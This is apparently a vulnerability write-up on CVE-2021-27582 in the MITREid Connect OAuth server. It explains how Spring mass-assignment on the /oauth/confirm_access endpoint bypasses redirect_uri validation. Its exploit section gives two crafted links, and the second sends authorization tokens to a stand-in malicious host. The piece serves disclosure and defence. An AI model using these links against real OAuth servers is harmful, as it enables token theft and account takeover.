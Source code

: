 ## CVE-2021-27582: [MITREid Connect] "redirect_uri" bypass via Spring autobinding

The MITREid Connect server was vulnerable to the session poisoning issue described above. In this case, exploitation didn't even require registering an additional client because the application has a mass assignment vulnerability on the confirmation page, which also leads to the session poisoning.

During the OAuth2 flow, when a user navigates to the authorization page ("/authorize"), the AuthorizationEndpoint class correctly checks all provided parameters (client_id, redirect_uri, scope, etc…). After that, when the user is authenticated, the server displays a confirmation page, asking the user to approve the access. The user's browser only sees the "/authorize" page but, internally, the server performs an internal request forwarding from "/authorize" to "/oauth/confirm_access". In order to pass parameters from one page to another, the server uses an "@ModelAttribute("authorizationRequest")" annotation on the ["/oauth/confirm_access" controller](https://github.com/mitreid-connect/OpenID-Connect-Java-Spring-Server/blob/a2e8cb1a67a5546fdef11c604142a847e7c61261/openid-connect-server/src/main/java/org/mitre/oauth2/web/OAuthConfirmationController.java#L104):

```
@PreAuthorize("hasRole('ROLE_USER')")@RequestMapping("/oauth/confirm_acces")public String confimAccess(Map<String, Object> model, @ModelAttribute("authorizationRequest") AuthorizationRequest authRequest, Principal p) {
```

This annotation is a bit tricky; it not only takes parameters from the Model of the previous controller, but also takes their values **from the current HTTP request query**. So, if the user navigates directly to the "/oauth/confirm_access" endpoint in the browser, it is able to provide all AuthorizationRequest parameters from the URL and bypass the check on the "/authorize" page.

The only caveat here is that the "/oauth/confirm_access" controller requires @SessionAttributes("authorizationRequest") to be present in the user's session. However, this can easily be achieved simply by visiting the "/authorize" page without performing any actions on it. The impact of this vulnerability is similar to the classic scenario in which the "redirect_uri" is never checked.

### Exploit

A malicious actor could craft two special links to the authorization and confirmation endpoints, each with its own "redirect_uri" parameter, and supply them to the user.

```
/authorize?client_id=c931f431-4e3a-4e63-84f7-948898b3cff9&response_type=code&scope=openid&prompt=consent&redirect_uri=http://trusted.example.com/redirect``/oauth/confirm_access?client_id=c931f431-4e3a-4e63-84f7-948898b3cff9&response_type=code&prompt=consent&scope=openid&redirectUri=http://malicious.example.com/steal_token
```

The "client_id" parameter can be from any client application the user already trusts. When "/confirm_access" is accessed, it takes all the parameters from the URL and poisons the model/session. Now, when a user approves the first request (since the "client_id" it's trusted), the authorization token is leaked to the malicious website.

***Note:** You may notice an intended difference between "redirect_uri" in the first request vs "redirectUri" in the second. This is intentional because the first one is a valid OAuth parameter whereas the second is a parameter name that actually binds to the "AuthorizationRequest.redirectUri" model attribute during mass assignment.
